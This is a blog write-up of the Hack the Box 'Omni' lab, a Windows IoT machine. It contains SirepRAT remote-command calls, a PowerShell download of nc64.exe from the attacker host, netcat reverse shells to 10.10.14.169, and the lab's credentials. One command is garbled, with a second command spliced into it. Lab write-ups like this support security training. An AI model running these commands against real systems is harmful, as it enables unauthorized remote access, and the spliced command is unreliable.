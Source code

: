 +++
author = "Nick"
categories = ["hack the box", "easy", "windows 10", "iot", "reverse shell", "Powershell", "sireprat"]
date = 2021-01-09T15:08:51Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2020/10/info-1.png"
slug = "hack-the-box-omni"
summary = "Welcome back everyone. Today we are doing the Hack the Box machine - Omni. This machine is different than most other machines. This is an IoT device! I'm excited to jump into this puzzle, let's go!"
tags = ["hack the box", "easy", "windows 10", "iot", "reverse shell", "Powershell", "sireprat"]
title = "Hack the Box - Omni"

+++


Welcome back everyone. Today we are doing the Hack the Box machine - Omni. This machine is different than most other machines. This is an IoT device! I'm excited to jump into this puzzle, let's go!

As usual, `nmap` it: `nmap -sC -sV -p- -oA allscan 10.10.10.204`

Here are our results:
```
Nmap scan report for 10.10.10.204
Host is up (0.065s latency).
Not shown: 65529 filtered ports
PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port29820-TCP:V=7.91%I=7%D=10/27%Time=5F98741B%P=x86_64-pc-linux-gnu%r(
SF:NULL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines,10,
SF:"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xfb`\x
SF:04G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\
SF:xc9}\xc8O\x12");
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows

```

We have some interesting ports. We see `IIS`, we have some kind of ARCserve service running as well. When we browse to port 8080 we get the auth prompt. The [default credentials](https://learn.adafruit.com/getting-started-with-windows-iot-on-raspberry-pi/prepare-raspberry-pi) are a no go. However, googling around does lead us to a tool that can break the box right open - [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT).

Now we could just rip the SAM from the machine and call it a day, but I don't think that's the intended method here ;). First we'll `git clone` the repo. The following command can give us some info on where to start looking for our flags.

Command:
```
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/C cd C:/ \&& dir /b/s *.txt" --v
```

This will tell us where our flags are located, thus giving us an idea of our targets and some user account info.

{{< figure src="__GHOST_URL__/content/images/2020/10/image-31.png" >}}

Now we know some basic info and what we're after. How do we obtain it? We have the ability to upload files to the system, in this case we can upload `nc.exe` and get a shell back to us. Now there are a few things to remember in this case. We need a place to put it where we have access, luckily we [know those](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets#applocker-writable-windows-directories). We also need to ensure we format our command correctly and have a `SimpleHTTPServer` running on port 80.

Command:
```
python2 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -outfile C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -uri 10.10.14.169/nc64.exe" --v
```

{{< figure src="__GHOST_URL__/content/images/2020/11/image.png" >}}

We see that our `nc64.exe` file was downloaded to the location we specified. now we simply need to execute the application to shell back to us. First we'll start up out `netcat` listener.

Command:
`nc -lvnp 6666`

Next we'll execute the command to connect back to us.

Command:
```
python2 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\> python2 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe 10.10.14.169 6666 -e powershell.exe" --v
```

{{< figure src="__GHOST_URL__/content/images/2020/11/image-1.png" >}}

We get our shell back instantly. Now we'll download an enumeration script and see what we can find. In this case we downloaded `WinPEAS`.

Command:
`invoke-webrequest -outfile 'C:\Windows\system32\spool\drivers\color\wp.bat' -uri 10.10.14.169/winPEAS.bat`

Running this files doesn't really help us much though. It's missing some components that are not included in the IoT Windows 10 version. Looks like we'll enumerate by hand. The first thing I did was search for `.bat` and `.txt` files.

Command:
`get-childitem -Path C:\ -Include *.bat* -recurse -erroraction Silentlycontinue`

Nothing too useful there. We'll repeat the steps this time, with hidden flag enabled as well as a time filter. We essentially want items that have been modified after the creation of the box. This way we can eliminate potential junk files from an image.

Command:
`get-childitem -Path C:\ -include *.bat*,*.txt* -recurse -erroraction silentlycontinue -hidden| ? {$_.lastwritetime -gt '8/20/20'}`

This finds an interesting file - `r.bat` - in an interesting location.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-2.png" >}}

When we look in the file, we see some credentials!

{{< figure src="__GHOST_URL__/content/images/2020/11/image-3.png" >}}

Now with some credentials, we can try to access that page being hosted on `8080`. Sure enough, we get in!

{{< figure src="__GHOST_URL__/content/images/2020/11/image-4.png" >}}

Now poking around this system, we see there is a function to run commands. Well great but it's possible that we are going to only run our command as our current user. Now, we can try to login to this portal as the administrator credentials that we just found. Sure enough, they work! Now, we can run commands as administrator! Let's create another shell back, this time with admin priv's.

Command:
`C:\Windows\System32\spool\drivers\color\nc64.exe 10.10.14.169 7777 -e powershell.exe`

We also want to ensure that we have our listener running.

Command:
`nc -lvnp 7777`

{{< figure src="__GHOST_URL__/content/images/2020/11/image-5.png" >}}

Sure enough, we catch our shell back!

{{< figure src="__GHOST_URL__/content/images/2020/11/image-6.png" >}}

With admin at our disposal, we check the `root.txt` file. Looks like it's a XML file that needs to be run through powershell to get the value. Fun. We can quickly get our value by using `import-clixml`, you can read up on that [here](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/import-clixml?view=powershell-7).

Commands:
`$cred = import-clixml -Path C:\Data\Users\Administrator\root.txt`
`$cred.GetNetworkCredential().Password`

I suppose you could have done this first when you get access as `app`, but when I realized you could run commands as app, I jumped right to `admin`. You need to log into the app portal as `app` with `mesh5143` as the password, and catch a shell there as well.



